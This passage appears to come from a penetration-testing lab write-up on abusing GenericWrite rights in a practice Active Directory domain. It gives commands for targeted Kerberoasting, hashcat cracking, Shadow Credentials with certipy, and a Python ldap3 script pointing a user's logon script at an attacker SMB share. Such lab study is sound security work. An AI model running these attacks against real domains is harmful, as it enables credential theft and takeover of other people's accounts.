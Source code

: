 ### Target Kerberoasting

- First let’s do a target Kerberoasting, the principe is simple. Add an SPN to the user, ask for a tgs, remove the SPN on the user.
- And now we can crack the TGS just like a classic kerberoasting.
    
- Shutdown have done a tool which do all the work for you : [https://github.com/ShutdownRepo/targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)
```
python3 targetedKerberoast.py -v -d sevenkingdoms.local -u jaime.lannister -p pasdebraspasdechocolat --request-user joffrey.baratheon
```


- And now just crack the hash
```
hashcat -m 13100 -a 0 joffrey.hash rockyou.txt --force
```


### Shadow Credentials

This was already done previously in this blog, one of the fastest exploitation is with certipy:

```
certipy-ad shadow auto -u jaime.lannister@sevenkingdoms.local -p 'pasdebraspasdechocolat' -account 'joffrey.baratheon'
```

### Logon script

- To show the scriptpath ldap value instead of ldapsearch we can use the tool [ldeep](https://github.com/franc-pentest/ldeep)

```
ldeep ldap -u jaime.lannister -p 'pasdebraspasdechocolat' -d sevenkingdoms.local -s ldap://192.168.56.10 search '(sAMAccountName=joffrey.baratheon)' scriptpath
```

- We can change this value with the following script:

```
import ldap3
dn = "CN=joffrey.baratheon,OU=Crownlands,DC=sevenkingdoms,DC=local"<br>user = "sevenkingdoms.local\\jaime.lannister"
password = "pasdebraspasdechocolat"<br>server = ldap3.Server('kingslanding.sevenkingdoms.local')
ldap_con = ldap3.Connection(server = server, user = user, password = password, authentication = ldap3.NTLM)
ldap_con.bind()
ldap_con.modify(dn,{'scriptpath' : [(ldap3.MODIFY_REPLACE, '\\\\192.168.56.1\share\exploit.bat')]})
print(ldap_con.result)
ldap_con.unbind()
```

- but sadly this won’t work… :’( (if you know why please let me know, this seems to work only if the script is already located in sysvol)
    
- Another way to abuse the GenericWrite is by changing the profilePath and wait for a connection to get a NetNtlmv2 authentication and relay to another computer or crack it.
    